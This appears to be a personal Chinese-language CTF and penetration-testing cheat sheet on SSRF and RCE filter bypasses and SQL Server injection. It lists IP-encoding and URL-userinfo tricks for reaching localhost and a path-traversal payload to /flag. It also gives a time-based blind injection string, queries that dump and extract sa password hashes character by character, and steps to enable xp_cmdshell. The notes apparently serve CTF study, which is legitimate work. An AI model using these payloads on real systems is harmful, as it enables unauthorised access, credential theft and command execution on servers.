 
# Web

## RCE 命令绕过

包含 www.baidu.com 通过 http://user:pass@host 格式绕过16进制/8进制

`www.baidu.com@127.0.0.2`

绕过 127.0.0.1 , 2-127都可以, 8进制
```txt
127.0.0.2
...
127.0.0.127

curl 127.0.0.0x02
ping 0x7F.0x00.0x00.0x01
ping 0x7F000001
ping 0177.0000.0000.0001
```

## SSRF

1. 不存在路径绕过

`url=/http/../flag`

2. 通过127.0.0.2 ... 127


## curl 使用
curl -i -L
```txt
-i, --include       Incluude protocol response headers in the output
-L, --location      Follow redirects
```


# SQL 注入

## SQL Server
https://www.w3schools.com/sql/sql_ref_sqlserver.asp

```sql
-- db name
Select Name From Master..SysDataBases Where DbId=(Select Dbid From Master..SysProcesses Where Spid = @@spid)
-- stack query
-- if else
SELECT IIF(500<1000, 'YES', 'NO');
if (1=1) waitfor delay '00:00:1' else select 2
-- blind
?id=1' waitfor delay '00:00:2'--'

-- current-user
select CURRENT_USER;
select SYSTEM_USER;
select USER_NAME();

-- functions
ascii,char,charindex,concat,concat with +,concat_ws,datalength,difference,format,left,len,lower,ltrim,nchar,patindex,quotename,replace,replicate,reverse,right,rtrim,soundex,space,str,stuff,substring,translate,trim,unicode,upper
select case when 1=1 then 0 else 2 end  -- if else 
if (1<0) Begin select 'true' End Else Begin select 'false' End -- if else 2

-- sa passwords
select *  FROM master.sys.sql_logins
select *  FROM [master].[sys].[sql_logins]
SELECT name, CAST(CONVERT(varchar(max), password_hash, 1) AS varchar)  FROM master.sys.sql_logins -- 0x0102  https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-ver16
SELECT name, CAST(CONVERT(varchar(max), password_hash, 2) AS varchar)  FROM master.sys.sql_logins -- 0102

select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 1, 1))=48  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为0
select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 2, 1))=49  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为1


SELECT HOST_NAME()  -- 主机名
SELECT HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser -- SUSER_NAME sa
-- 在master - 视图里
```

启动 xp_cmdshell
```
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go
```